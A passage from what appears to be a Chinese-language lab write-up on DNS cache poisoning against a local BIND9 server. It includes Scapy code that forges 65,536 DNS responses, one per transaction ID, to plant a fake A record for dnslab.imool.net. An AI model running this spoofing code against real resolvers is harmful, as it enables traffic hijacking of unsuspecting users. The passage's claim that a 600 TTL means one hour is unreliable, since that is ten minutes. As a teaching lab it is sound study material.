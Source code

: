 ​    通过以上步骤确定攻击者需要伪造的DNS响应报文的源IP地址是39.107.126.48。

### 2.配置本地域名服务器

​    为简化实现，将本地域名服务器的源端口固定为20002，攻击者只需要猜测TXID：

![image-20240530192756983](./assets/image-20240530192756983.png)

之后重启BIND9使配置生效。

### 3.构造响应数据包

​    DNS记录的主要参数如下：

```python
victim_subdomain = "dnslab.imool.net"
fake_ip = "192.168.3.40"
authoritative_ip = "39.107.126.48"
localdns_ip = "192.168.3.53"
authoritative_port = 53
localdns_port = 20002
fake_rr = DNSRR(rrname=victim_subdomain, type="A", ttl=600, rdata=fake_ip)
```

其中DNS记录的TTL值600，使该虚假记录能在正常用户的缓存中停留1小时。

### 4.猜测TXID

​    TXID占16比特，范围是0到65535，需要构造65536个数据包。每个数据包IP层的源地址是39.107.126.48(权威域名服务器)，目的地址是192.168.3.53(待攻击的本地域名服务器)；UDP层源端口是53(因为本地域名服务器执行递归查询时会发送到53号端口)，目的端口是20002(第2步固定的端口)；DNS报文的QR位和AA位都为1，分别表示响应报文和权威应答，DNS记录包含的IP地址为攻击者192.168.3.40：

```python
def build_dns_response_packets():
    packets = []
    fake_rr = DNSRR(rrname=victim_subdomain, type="A", 
ttl=600, rdata=fake_ip)
    for txid in range(65536):
        dns_layer = DNS(id=txid, qr=1, aa=1,     
qd=DNSQR(qname=victim_subdomain), 
ancount=1, an=fake_rr)
        ip_layer = IP(src=authoritative_ip, dst=localdns_ip)
        udp_layer = UDP(sport=authoritative_port, 
dport=localdns_port)
        packet = ip_layer / udp_layer / dns_layer
        packets.append(packet)
    return packets

```
